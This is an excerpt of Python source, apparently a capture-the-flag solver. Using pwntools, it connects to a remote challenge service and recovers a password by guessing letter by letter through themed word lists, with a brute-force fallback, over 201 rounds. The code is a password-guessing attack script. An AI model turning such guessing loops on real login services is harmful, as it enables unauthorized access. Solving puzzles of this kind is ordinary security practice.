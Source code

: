 ```python

    def guess_words_smart(self, words, password: str = ""):
        # Napkin maths says 4 is a good number
        if len(words) < 4:
            return self.guess_words(words, password)
        first_letters = Counter(word[0] for word in words).most_common()
        if first_letters[0][1] == 1:
            return self.guess_words(words, password)
        first_letters_s = [letter for letter, cnt in first_letters if cnt > 1]
        new_s = self.guess_words(first_letters_s, password, fallback=False)
        if new_s is None:
            new_words = [word for word in words if word[0] not in first_letters_s]
            assert len(new_words) > 0
            return self.guess_words_smart(new_words, password)
        words = [word[1:] for word in words if word[0] == new_s[-1]]
        return self.guess_words_smart(words, new_s)

    def solve(self):
        try:
            password = self.guess_words_smart(days)
            log.debug(f"Partial: {password!r}")
            password = self.guess_words_smart(movies, password)
            log.debug(f"Partial: {password!r}")
            password = self.guess_words_smart(elements, password)
            log.debug(f"Partial: {password!r}")
            password = self.guess_words_smart(nato_phonetic, password)
            log.debug(f"Partial: {password!r}")
            log.error("Something after phonetic alphabet, resorting to brute force")
            self.brute_force(password)
        except SuccessfulConnection:
            log.info("We're in!")
            out = self.r.recvuntil("remaining.\n", timeout=1)
            log.info(f"MSG: {out}")
            log.info(f"Guesses: {self.guesses}/6000 ({round(self.guesses / 60, 2)})")
            log.info(f"User: {self.user}")
            log.info(f"Password: {self.password}")
            return True, self.guesses, self.password, self.user
        # except Timeout:
        #     return False, self.guesses, self.password, self.user


def main():
    log.setLevel("INFO")
    r = remote(HOST, PORT)
    r.recvuntil("remaining.\n")
    for i in tqdm(range(201)):
        guesser = GuesserSecondary(r)
        guesser.solve()


if __name__ == "__main__":
    main()
```
